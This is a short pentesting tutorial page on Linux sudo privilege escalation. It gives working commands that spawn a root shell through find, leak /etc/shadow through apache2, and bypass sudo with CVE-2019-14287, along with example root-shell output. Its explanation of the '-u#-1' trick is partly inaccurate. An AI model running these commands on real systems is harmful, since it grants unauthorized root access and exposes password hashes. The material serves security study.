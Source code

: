 # Sudo Abuse

running sudo without password is one of the most dangerous things in linux. we can use sudo to run binaries and apps that are vulnerable to shell escape sequence and use them to get a root shell.

GTFObins is a great resource for linux privilege escalation and will help you find vulnerable binaries and methods to use them.

{% embed url="https://gtfobins.github.io/" %}

**sudo -l **>>> see what executable binaries in the system we can use with sudo

![](../../../.gitbook/assets/sudo.png)

for example we search for find command in the web page to see how we can use it to abuse sudo

![](../../../.gitbook/assets/sudo2.png)

we can use this for prives

#### `sudo find . -exec /bin/sh \; -quit`

another example would be apache2 which we can ru usung sudo but it doesnt have an scape sequence to abuse

but there are other methods for this for example apache2 will return an error while parsing a configuration file when it doesnt understand it and it will print out any line of the given file

#### `sudo apache2 -f /etc/shadow`

apache wont understand the /etc/shadow file entries as a config file so it will print out any line that it doesnt understand which will be the root hashed password

![](../../../.gitbook/assets/sudo3.png)

we can now copy and crack the root hash

## CVE-2019-14287

In Sudo before 1.8.28, an attacker with access to a Runas ALL sudoer account can bypass certain policy blacklists and session PAM modules, and can cause incorrect logging, by invoking sudo with a crafted user ID. For example, this allows bypass of !root configuration, and USER= logging, for a "sudo -u #$((0xffffffff))" command.

the exploit code can be found here.

{% embed url="https://www.exploit-db.com/exploits/47502" %}

Check for the user sudo permissions

#### `sudo -l`

User hacker may run the following commands on kali:

#### `(ALL, !root) /bin/bash`

#### So user hacker can't run /bin/bash as root (!root)

User hacker sudo privilege in /etc/sudoers

#### `# User privilege specification` ` root ALL=(ALL:ALL) ALL`

#### `hacker ALL=(ALL,!root) /bin/bash`

With ALL specified, user hacker can run the binary /bin/bash as any user

### Exploit

**sudo -u#-1 /bin/bash **→ #-1 means the the first entry of the /etc/shadow file (root) so we can specify any user ID with a + like: #+1000

Example :

#### `hacker@kali:~$ sudo -u#-1 /bin/bash` ` root@kali:/home/hacker# id` ` uid=0(root) gid=1000(hacker) groups=1000(hacker)` ` root@kali:/home/hacker#`

#### &#x20;Sudo doesn't check for the existence of the specified user id and executes the with arbitrary user id with the sudo priv -u#-1 returns as 0 which is root's id and /bin/bash is executed with root permission Proof of Concept Code :

#### `python3 sudo_exploit.py`

